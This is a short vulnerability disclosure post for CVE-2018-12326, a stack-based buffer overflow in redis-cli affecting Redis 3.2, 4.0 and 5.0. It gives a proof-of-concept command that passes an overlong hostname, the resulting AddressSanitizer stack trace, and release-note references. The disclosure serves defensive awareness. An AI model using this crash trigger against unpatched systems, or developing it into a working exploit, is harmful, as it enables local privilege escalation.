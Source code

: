 ```yaml
---
layout: post
title: "[CVE-2018-12326] Redis-cli Stack-based Buffer Overflow"
date: 2018-06-13
categories:
    - blog
keywords: "redis, redis-cli, buffer overflow"
---
```


Buffer overflow in redis-cli of Redis version 3.2, 4.0, and 5.0 allows a local attacker to achieve code execution and escalate to higher privileges via a long string in the hostname parameter.

```shell
$ ./src/redis-cli -h `python -c 'print "A" * 300'`
Could not connect to Redis at AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA:6379: Name or service not known

#0 0x4a4182 in vsnprintf /home/user/llvm/projects/compiler-rt/lib/asan/../sanitizer_common/sanitizer_common_interceptors.inc:1566
#1 0x4a42d0 in snprintf /home/user/llvm/projects/compiler-rt/lib/asan/../sanitizer_common/sanitizer_common_interceptors.inc:1637
#2 0x570159 in repl /home/user/redis/src/redis-cli.c:1624:5
#3 0x55ba77 in main /home/user/redis/src/redis-cli.c:6660:9
#4 0x7f6be5f6e82f in __libc_start_main /build/glibc-Cl5G7W/glibc-2.23/csu/../csu/libc-start.c:291
#5 0x4247a8 in _start (/home/user/redis/src/redis-cli+0x4247a8)
```
---
References:
1. https://raw.githubusercontent.com/antirez/redis/4.0/00-RELEASENOTES
2. https://raw.githubusercontent.com/antirez/redis/5.0/00-RELEASENOTES
